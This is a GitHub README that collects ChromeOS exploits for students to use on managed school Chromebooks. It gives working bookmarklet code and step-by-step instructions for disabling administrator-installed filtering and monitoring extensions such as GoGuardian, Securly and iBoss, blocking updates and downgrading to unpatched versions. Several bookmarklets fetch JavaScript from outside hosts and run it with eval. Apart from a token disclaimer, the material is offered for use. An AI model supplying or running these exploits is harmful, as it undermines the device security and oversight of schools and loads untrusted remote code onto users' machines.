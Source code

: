 # EXT-REMOVER
This is a curated list of exploits for ChromeOS. It started with LTBEEF, and now there is more!
Many of these exploits can destory your computer if used inproperly. So PLEASE PLEASE make sure you follow these instructions very carefully!
If you need help ask it <a href="https://github.com/3kh0/ext-remover/discussions">here</a>
  
**ATTENTION ALL SYS ADMINS!!!**

Hello, I am Echo and I created this repo in order to give exploits for the masses and to prove one thing, chromebooks are literal trash, and a poor excuse for a computer. They are full of exploits, you might think you blocked/patched them all but then 3 more pop up. It is a endless game of wack-a-mole. Treat your students to a windows computer, they will thank you. And don't you dare start to think "My school district does not have that kind of money", it most likely does! How much are you paying the blocker companies? Think about that.

<img width="250px" src="https://user-images.githubusercontent.com/58097612/191354621-bf7ff072-b9d7-46b5-994a-4d2adbf0e4f3.png">  
Image Credit: LittleMissNyan
<details>
<summary><b> Extension Launcher (Bookmarklet) </summary>
A bookmarklet capable of installing extensions, for those without a allowlist. 

Steps: 
Go to <a href="https://extension-installer.glitch.me/code.js">here</a> bookmark the code there (Might make a dns)
go to chrome.google.com/webstorex and use the bookmarklet, then put the icon of the extension, the id, and name of it (Doesn't matter just put anything)
press download, and it will work.
**Extra Notes**
- Credit to "Aka, but nice" on discord.
- Dns will be up soon, if bookmarklets are blocked
- This will not work if you have a blocklist this is only for if when you go to the webstore it shows blocked
</details>
<details>
<summary><b>New Point-Blank</b> (Run scripts on extension pages)</summary>
This exploit allows you to run scripts, on extensions pages, this is a great example of how Chromebooks are a piece of garbage.

*Scroll down to preform this exploit!*


<i>Getting started</i>
(Note: if bookmarklets are blocked your screwed.)
  1. Go to <a href="https://spot-maze-chinchilla.glitch.me/ingot.js">here</a> (on your school chromebook of course)
2. Make a bookmark with the code there.
3. Once that is done.
  If you have Securly go to <a href="https://tinyurl.com/bettergoofcurly">here</a> if it says blocked by chrome, reload(you have to actually have securly ofc)
 If you have iBoss go to <a href="https://tinyurl.com/goofboss">here</a>, 
 
 If you have Cisco Umbrella go to <a href="https://tinyurl.com/goofumbrella">here</a>
 If you have Blocksi go to <a href="https://tinyurl.com/goofsi">here</a> 
 And if you have GoGuardian(might not work) go to <a href="https://tinyurl.com/goofguardian">here</a>. Now most of these links are a block page(this is intentional) on each page should have a blue link, click the link on the page if it opens a blank page click the bookmarklet that you just made and click either hard disable or soft disable, you can also run some of the scripts and run your own code, your extension may disable javascript being ran on it, so running your own code may not work.
**Extra notes**
- I recommend doing soft disable, which only disables it until restart. 
- The launcher was made by me, but the idea was from <a href="https://bolg.glitch.me/_/point-blank/">Bypassi#7037</a>
- If your school updated GoGuardian, this exploit may not work.

Please use this only when you have permisson, I (3kh0) do not condone the use of this exploit for illegal purposes!

</details>

<details>
<summary><b> UBoss </summary>

By the BlueHatCrew
https://dsc.gg/blue-hat-crew

This works only for iboss, cisco umbrella, blocksi and securely(maybe).
So if you don't have those then go tell your mommy.
First go to https://tinyurl.com/byeswamp if you have iboss. 
https://tinyurl.com/blockboss if you have Blocksi.
https://tinyurl.com/cyouboss if you have Cisco Umbrella. May not work
and https://tinyurl.com/suboss if you have securely. May not work.

Then bookmark the code below
```js
javascript:document.documentElement.innerHTML =   '<head> <center> <h1> [UBoss]  <strong> Ur </strong> moms the <strong> BOSS </strong> </h1> </center></head><br> <h4> <center> This is based off of the original swamp launcher, the new point-blank method and the old extesnion id disabler. <hr> <strong> Credits: </strong> Aka, but nice (for the main code layout and javscript), Bypassi (for the original Swamp code and Point-Blank), <a href="https://www.youtube.com/legoaxolotl?Sub_Confirmation=1">Lego Axolotl</a> (For name idea, and beta testing), and finally, the <a href="https://www.youtube.com/@thebluehatcrew/Sub_Confirmation=1">BlueHatCrew</a> for making the UI and initial idea of this. </h4> </center> <hr> <br><div><style> pre,textarea{display:inline-block;height:400px}*{box-sizing:border-box}body{padding:10px;font-size:110%;color:#349633%20;background-color:#2e2e31}h1{text-align:center;font-size:70px}h2{text-align:left;font-size:175%}button,input,pre,select,textarea{color:#000;font-size:15px}h1,h2,h3,button,label,p,select{font-family:Roboto,sans-serif}hr{border:none;border-bottom:3px%20solid%20#fff}input,kbd,pre,textarea{font-family:monospace;border:none}input,select,textarea{background-color:#fff;border-radius:10px;p%20dding:10px%2017px;border:none}button,input{background-color:#fff;padding:10px%2020px;margin:0%205px%205px%200}input{width:600px;border-radius:10px}textarea{white-space:pre;float:left;width:60%;border-radius:10px%200%200%2010px;resize:none;background-color:#99edc3;margin-bottom:15px}pre{border-radius:0%2010px%2010px%200;padding:8px;float:right;margin:0%200%2025px;width:40%;overflow-y:scroll;word-break:break-all;white-space:pre-line;background-color:#1c8e40}button{border:none;border-radius:10px;cursor:pointer;transition:filter%20250ms}button:hover{filter:brightness(.8)}.gg{background-color:#99edc3}a{color:#4fef7c;transition:color%20250ms}a:hover{color:#1c8e40}</style><br><br><center><input%20id="id"%20placeholder="Put%20Extension%20ID%20Here:%20(split%20by%20commas)"><br>%20<button%20id="disable">Disable</button>';%20document.getElementById("disable").addEventListener(%20%20%20"click",%20%20%20function%20()%20{%20%20%20%20%20var%20ids%20=%20document%20%20%20%20%20%20%20.getElementById("id")%20%20%20%20%20%20%20.value.split(",")%20%20%20%20%20%20%20.forEach((e)%20=>%20{%20%20%20%20%20%20%20%20%20opener.chrome.management.setEnabled(ids.trim(),%20false);%20%20%20%20%20%20%20});%20%20%20},%20%20%20!1%20);%20opener.chrome.management.getAll(function%20(extensions)%20{%20%20%20extensions.forEach((extension)%20=>%20{%20%20%20%20%20var%20button%20=%20document.createElement("button");%20%20%20%20%20(button.textContent%20=%20extension.name),%20%20%20%20%20%20%20(button.id%20=%20extension.id),%20%20%20%20%20%20%20(button.enabled%20=%20extension.enabled),%20%20%20%20%20%20%20(button.onclick%20=%20toggle);%20%20%20%20%20document.documentElement.appendChild(button);%20%20%20});%20});%20var%20blocking%20=%20false;%20function%20toggle()%20{%20%20%20if%20(blocking)%20{%20%20%20%20%20opener.chrome.management.setEnabled(this.id,%20false);%20%20%20}%20else%20{%20%20%20%20%20opener.chrome.management.setEnabled(this.id,%20true);%20%20%20}%20%20%20blocking%20=%20!blocking;%20}%20toggle();%20this.onclick%20=%20toggle();%20document.write(%20%20%20'<style>%20pre,textarea{display:inline-block;height:400px}*{box-sizing:border-box}body{padding:10px;font-size:110%;color:#fff;background-color:#2e2e31}h1{text-align:center;font-size:70px}h2{text-align:left;font-size:175%}button,input,pre,select,textarea{color:#000;font-size:15px}h1,h2,h3,button,label,p,select{font-family:Roboto,sans-serif}hr{border:none;border-bottom:3px%20solid%20#fff}input,kbd,pre,textarea{font-family:monospace;border:none}input,select,textarea{background-color:#fff;border-radius:10px;padding:10px%2017px;border:none}button,input{background-color:#fff;padding:10px%2020px;margin:0%205px%205px%200}input{width:600px;border-radius:10px}textarea{white-space:pre;float:left;width:60%;border-radius:10px%200%200%2010px;resize:none;background-color:#99edc3;margin-bottom:15px}pre{border-radius:0%2010px%2010px%200;padding:8px;float:right;margin:0%200%2025px;width:40%;overflow-y:scroll;word-break:break-all;white-space:pre-line;background-color:#1c8e40}button{border:none;border-radius:10px;cursor:pointer;transition:filter%20250ms}button:hover{filter:brightness(.8)}.gg{background-color:#99edc3}a{color:#99edc3;transition:color%20250ms}a:hover{color:#1c8e40}%20</style>%20<center>%20<input%20id="extension"%20placeholder="Put%20Extension%20Id%20Here"><button%20id="disable">Disable%20Extension</button>'%20),%20%20%20document.getElementById("disable").addEventListener(%20%20%20%20%20"click",%20%20%20%20%20function%20()%20{%20%20%20%20%20%20%20var%20ids%20=%20document%20%20%20%20%20%20%20%20%20.getElementById("extension")%20%20%20%20%20%20%20%20%20.value.split(",")%20%20%20%20%20%20%20%20%20.forEach((i)%20=>%20{%20%20%20%20%20%20%20%20%20%20%20opener.chrome.management.setEnabled(i.trim(),%20!1);%20%20%20%20%20%20%20%20%20});%20%20%20%20%20},%20%20%20%20%20!1%20%20%20);
```

Then go to the site with your blocker^.

And run the code. Follow the instructions there.
If it doesnt work let us know by creating a discussion.

This was made in partnership with Aka, but nice and Bypassi.

-Cubing Hay
</details>

<details>
<summary><b>CAUB</b> (Prevent Updates)</summary>
This exploit keeps your chromebook downgraded (or on the current version) without automatic updates screwing you over. This exploit was found by Catakang#0987. Using onc files, you can convince your chromebook that the wifi that you're connected to is pay-to-use (like a hotspot using data), and thus it will not check for updates.

*Scroll down to preform this exploit!*

![image](https://user-images.githubusercontent.com/58097612/212685932-ef9c802e-6040-42a3-be6e-10997162b7cd.png)

<i>Getting started</i>

1. Go to `chrome://network#state` (on your school chromebook of course; if this is blocked then ur kinda screwed lol).
2. Scroll to the bottom of the page; you should see a list of "favorite" wifis that you've connected to in the past.
3. Click the + sign next to the wifi name of each network that you commonly connect your chromebook to.
4. The more wifis you expand, the better, but note that they have to come from the "favorites" section.
5. Use ctrl+a and ctrl+c to copy all the text on the entire network#state page.
6. Go to [caub.glitch.me](https://caub.glitch.me/).
7. Paste the copied text into the textbox bshelow.
8. Press the "generate onc" button below the textbox.
9. Once you have downloaded the file, go to chrome://network#general
10. Click on the "import onc" button
11. Import the newly downloaded file

**Extra notes**
- Your chromebook will no longer automatically update. (as long as you are on a wifi that you used caub on)
- Be careful not to stay on a wifi for too long without using caub on it, otherwise you might update.
- We cannot guarantee that this will work on every wifi

Please use this only when you have permisson, I (3kh0) do not condone the use of this exploit for illegal purposes!

</details>

<details>
<summary><b>LTBEEF</b> (Disable extensions)</summary>
LTBEEF is an exploit, created by Bypassi#7037, which abuses api endpoints within the google chrome webstore.  

<b>Please Note:</b> This exploit only works on versions below 106, and eariler versions of 102
  
The original site created for this exploit can be found at <a href="https://ltbeef.netlify.app/">ltbeef.netlify.app</a>
  
**Installation**  
There are several vesions of this exploit you can use, here are the 2 most common versions:
- *Bookmarklets*  
    To use a GUI, bookmark one of the below scripts:  
    - Ingot  
    ```js
    javascript:(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot/ingot.min.js';document.body.appendChild(a);}())
    ```
    - Compact Cow's UI  
    ```js
    javascript:fetch(`https://compactcow.com/ltbeef/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});
    ```  
    - Compact Cow's UI (Dark)
    ```js
    javascript:void fetch(`https://raw.githubusercontent.com/3kh0/ext-remover/main/exploit.js`).then(d=>d.text()).then(eval);
    ```

    Navigate to <a href="https://chrome.google.com/webstorex">https://chrome.google.com/webstorex</a> and click on that bookmark. Flip the switches on the extentions you want to disable. Simple!  

    Photos of the GUI's:
    ![image](https://user-images.githubusercontent.com/58097612/193318485-5267cd59-fb65-45a5-ad28-7f068bbce974.png)
    ![image](https://user-images.githubusercontent.com/58097612/190276894-fc492c5c-b0ce-4943-ae56-603f75634618.png)
   
- *DNS servers*  
    By changing your DNS server, you can use LTBEEF, even if bookmarklets are blocked.  
      
    First, go to Settings > Network > Wifi > Network, and click on "Custom Name Servers"
    ![image](https://user-images.githubusercontent.com/88395302/212482302-82334f42-c421-45c2-b210-1e700652b5be.png)  
    Set every box there to the following ip:  
    ```158.101.114.159``` (Hosted by The Greatest Giant#0110)  
    Navigate to <a href="https://chrome.google.com/webstorex">https://chrome.google.com/webstorex</a> and click on that bookmark. Flip the switches on the extentions you want to disable. 


Please use this only when you have permisson, I (3kh0) do not condone the use of this exploit for illegal purposes!
</details>  

<details>
<summary><b>LTBEEF inspect</b> (Using inspect to disable extensions)</summary>

![image](https://user-images.githubusercontent.com/58097612/207386423-e6aa2095-d92d-44a8-a3d6-e42066bdf34e.png)

The screenshot below was preformed on 108.0.5359.75 (Official Build) (64-bit) on the stable channel.

This has been tested and does work but has varying levels of success, you will need access to inspect element, more specifically, console.

- Open this URL on your chromebook: `chrome-extension://gndmhdcefbhlchkhipcnnbkcmicncehk/manifest.json` Shortened link: https://tinyurl.com/i-ltbeef
- Open inspect and navigate to the console tab.
- Run the basic LTBEEF code such as
```js
chrome.management.setEnabled('extensionid', false)
```
Replacing `extensionid` with the ID of the extension you want to disable, e.g. the stuff after the = in the URL bar when you click the extension's "details" button in chrome://extensions

Credit to SprinkzMC#8421 (aka Bypassi) for finding this!

![image](https://user-images.githubusercontent.com/58097612/207385046-5a9f6f07-6089-4775-9183-c11bd24ba02c.png)

To re-enable just go to the chrome web listing for the extension and click on the banner.
</details>

<details>
<summary><b>Point Blank</b> (Run code on system pages)</summary>
Point Blank is an exploit that allows you to run bookmarklets on privilaged pages, sutch as the chrome extentions page.  
This exploit was also found by Bypassi, you can read more about how he discovered this exploit <a href="https://blog.bypassi.com/_/point-blank/"></a>
You can either use the prompt or the gui the prompt is below
1. Bookmark this code:







    javascript:let shim = false;var ids = prompt("extension ids (comma separated)").split(",");setInterval(()=>{ids.forEach((id)=> opener.chrome.developerPrivate.updateExtensionConfiguration({extensionId: id, fileAccess: shim}));shim = !shim;}, 145);
    
    
    
    
    
   
And the gui is in launcher.js
2. Navigate to `chrome://extensions` 
3. Click on a extension that YOU installed from the Chrome Web Store > Details
4. In the URL bar, copy the string of letters and numbers after the `/?id=`
5. Click "View in Chrome Web Store" and spam the excape key. If it loads into chrome webstore try again, if it is a blank screen click the bookmarklet
5. Paste the id of the extension into the prompt or input box seperated by commas.
If you close the tab, the exploit will stop working.

Please use this only when you have permisson, I (3kh0) do not condone the use of this exploit for illegal purposes!
</details>

<details>
<summary><b>SH1mmer</b></summary>  
SH1mmer is an exploit devloped by the crew at Mercury Workshop. Credits can be found within the menu and on their site.  

Further information is now located at these links:

[Official Repository](https://github.com/CoolElectronics/sh1mmer)  
[Official Website (INSTRUCTIONS)](https://sh1mmer.me/)  
[Raw Shims Download](https://files.ultimatesrv.com/)  
[Wax4Web Shim Builder](https://build.ultimatesrv.com/)
</details>

<details>
<summary><b>Downgrading</b> (Change versions)</summary>  
Downgrading can be used for several exploits, to get to a version that does not have patches for certain exploits, sutch as LTBEEF. This is a built in feature of ChromeOS.

![image](https://user-images.githubusercontent.com/58097612/212685863-3d6b8ce1-7caa-4735-95a8-8eb6787b227c.png)

<i>Requirements</i>
1. A USB thumb drive with at least 4gb of storage, some board have small or bigger images, so have a beef usb, I recommend 16gb
2. A personal computer with access to downloading extentions
3. A brain

<i>Setup</i>
1. Navigate to chrome://version on the chromebook you with to downgrade and check for your board under "Platform" (ex I have a c3100 and it's board is stable-channel octopus)  
<img src="https://user-images.githubusercontent.com/88395302/212484378-65e6e6e3-b995-48a1-b229-3265a4993279.png">  
2. Navigate to https://chrome100.dev/ , press `ctrl+f` and type in your board
3. Find and download the chrome version you want to your personal computer

<i>Instlation</i>
1. Install Chromebook Recovery Utility onto your personal computer (found at <a href="https://chrome.google.com/webstore/detail/chromebook-recovery-utili/pocpnlppkickgojjlmhdmidojbmbodfm?hl=en">https://chrome.google.com/webstore/detail/chromebook-recovery-utili/pocpnlppkickgojjlmhdmidojbmbodfm?hl=en</a>
2. Open the extention, and click on the settings button in to top right hand corner, click "use local image"
3. Select the recovery image you downloaded from chrome100
4. Plug in the USB you wish to use, and follow the prompts on the screen
5. On your chromebook, press esc+reload+power and follow the prompts
6. On the checking for updates screen, press ctrl+shift+e to skip the "checking for updates" screen
7. Profit

Please use this only when you have permisson, I (3kh0) do not condone the use of this exploit for illegal purposes!
</details>
  
<details>
  <summary><b>Killcurly</b></summary>
Kill extension, by signing out.

1. Visit chrome://settings/signOut the O in Out must be capital.
2. Press the blue button
3. Go to chrome://restart
4. Now visit tinyurl.com/AddSession
5. Add your **SCHOOL** account back. It WILL NOT WORK if you add a home account back. This is just so you can still access Google Drive, Youtube, and any Google   service.
6. All extensions should stop working.
7. Note that you have to repeat this every time you restart or sign out.
  
  **Using this, may get your computer taken away if your school finds out.** 
**This was discoverered by zoroark**
Please use this only when you have permisson, I (3kh0) do not condone the use of this exploit for illegal purposes!
</details>


boop
